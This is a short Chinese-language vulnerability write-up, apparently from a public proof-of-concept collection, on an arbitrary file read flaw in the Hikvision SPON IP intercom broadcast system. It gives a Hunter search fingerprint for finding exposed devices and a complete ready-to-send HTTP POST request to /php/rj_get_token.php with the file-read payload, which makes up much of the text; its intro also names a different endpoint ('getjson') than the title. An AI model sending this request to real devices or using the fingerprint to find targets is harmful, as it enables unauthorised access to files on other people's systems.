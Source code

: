# 海康威视SPON IP网络对讲广播系统rj_get_token存在任意文件读取漏洞

# 一、漏洞简介
<font style="color:rgba(0, 0, 0, 0.9);">Hikvision Intercom Broadcasting System是中国海康威视（Hikvision）公司的一个对讲广播系统。海康威视SPON IP网络对讲广播系统getjson存在任意文件读取漏洞。</font>

# <font style="color:rgba(0, 0, 0, 0.9);">二、影响版本</font>
+ 海康威视SPON IP网络对讲广播系统

# 三、资产测绘
+ Hunter：`web.body="vendors/custom/html5.min.js"`
+ 特征

![1704857140903-8dadddb1-8d90-42a6-9179-3cd4dca00c8b.png](./img/gQEXNUCoyilRb96r/1704857140903-8dadddb1-8d90-42a6-9179-3cd4dca00c8b-931102.png)

# 四、漏洞复现
```plain
POST /php/rj_get_token.php HTTP/1.1
Host: 
Content-Length: 120
Sec-Ch-Ua: 
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
Sec-Ch-Ua-Platform: ""
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

jsondata[url]=rj_get_token.php
```

![1705237594033-ec2aca8a-b9a8-4417-86e2-fae5df5aaeec.png](./img/gQEXNUCoyilRb96r/1705237594033-ec2aca8a-b9a8-4417-86e2-fae5df5aaeec-314646.png)



> 更新: 2024-02-29 23:57:17  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/sshgiyaupb6l0y7c>